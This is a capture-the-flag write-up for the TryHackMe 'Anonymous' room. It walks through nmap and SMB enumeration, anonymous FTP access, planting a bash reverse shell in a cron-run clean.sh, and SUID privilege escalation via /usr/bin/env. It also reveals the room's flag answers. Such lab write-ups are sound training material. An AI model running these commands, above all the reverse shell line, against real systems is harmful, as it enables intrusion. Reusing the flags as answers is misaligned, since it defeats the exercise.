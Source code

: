 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/anonymous_Cover.png" alt="Anonymous">
</p>

# [Anonymous](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/anonymous)



More details [here](https://stawm.design.blog/2020/05/21/anonymous-thm-writeup/).

## Pwn



1. Enumerate the machine.  How many ports are open?

   We first scan the machine for any open ports with the following command:
   
   ```cmd
   nmap -sV 10.10.147.121
   ```
   
   ![Nmap Scan](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Scan.png)

   ><details><summary>Click for answer</summary>4</details>

2. What service is running on port 21?

   This answer can be found in the previous image.

   ><details><summary>Click for answer</summary>ftp</details>

3. What service is running on ports 139 and 445?

   Both these answers can be seen in the previous image above.

   ><details><summary>Click for answer</summary>smb</details>

4. There's a share on the user's computer.  What's it called?

   We can use smbclient to identify the shares available on the target machine.
   
   ```cmd
   smbclient -NL //10.10.11.32
   ```
   
   ![Smb Shares](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Smb_Shares.png)
      
   To view the contents of this share we can use:
   
   ```cmd
   smbclient -N //10.10.11.32/pics
   ```
   
   ![Smb Share](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb.png)

   After going through these files, it appears they are just images of some dogs, which have no further use.
   
   ![SMB Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Smb_Files.png)
   
   ![Images](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Dogs.png)

   ><details><summary>Click for answer</summary>pics</details>

5. user.txt

   From the nmap scan we found we could connect to the machine through anonymous ftp.
   
   ```cmd
   ftp 10.10.75.132
   ```
   
   ![FTP Log In](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Log_In.png)
   
   Looking through the files we see three files in a scripts folder which may be of interest.
   
   ![FTP Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Files.png)
   
   We can download them all to our machine to investigate with `mget *`.
   
   ![FTP Download Files](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Download.png)
   
   Looks like the `clean.sh` file is a script that runs periodically to remove some files. This gets stored in the log file. We also note that we have write access to this script. 
   
   ![Removed Files Log](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Removed_Files_Log.png)
   
   Lets find a command for a reverse shell we can add to this files. We can use [pentestmonkeys](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for this.
   
   ![Reverse Shell Command](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Reverse_Shell_Command.png)
   
   We can now append this to the script we downloaded.
   
   ```cmd
   bash -i >& /dev/tcp/10.18.78.136/1337 0>&1
   ```
   
   ![Finished Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Finished_Script.png)
   
   Now all we have to do, is upload the file to the server. Set up a listener and wait for the script to run.
   
   ```cmd
   put clean.sh
   ```
   
   ![FTP Upload](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Ftp_Upload.png)
   
   We can check if the command was added using:
   
   ```cmd
   curl ftp://10.10.75.132/scripts/clean.sh
   ```
   
   ![Check Script](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Check_Script.png)
   
   Now we setup the listener and wait for the incoming connection to be made.
   
   ```cmd
   nc -nlvp 1337
   ```
   
   ![Reverse Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_Reverse_Shell.png)
   
   Now it is time to navigate to the flag and read its contents.
   
   ![User Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Nmap_User.png)

   ><details><summary>Click for answer</summary>90d6f992585815ff991e68748c414740</details>

6. root.txt

   In order for us to gain root on this machine we can look for any binaries which have their SUID bit set. 
   
   ```cmd
   find / -perm -4000 2>/dev/null
   ```
   
   ![Shell SUID](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Shel_SUID.png)
   
   We can use GTFOBins to look for any binaries which don't need sudo or a password. From this list we can use `/usr/bin/env`.
   
   ![GTFO](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_GTFO.png)
   
   Now we can use this command to get root access on the machine.
   
   ```cmd
   /usr/bin/env bin/bash -p
   ```
   
   ![Root](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root.png)
   
   After a quick check to verify we are indeed root, we can look at the contents of `root.txt`.
   
   ![Root Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/anonymous/pwn_Root_Flag.png)

   ><details><summary>Click for answer</summary>4d930091c31a622a7ed10f27999af363</details>
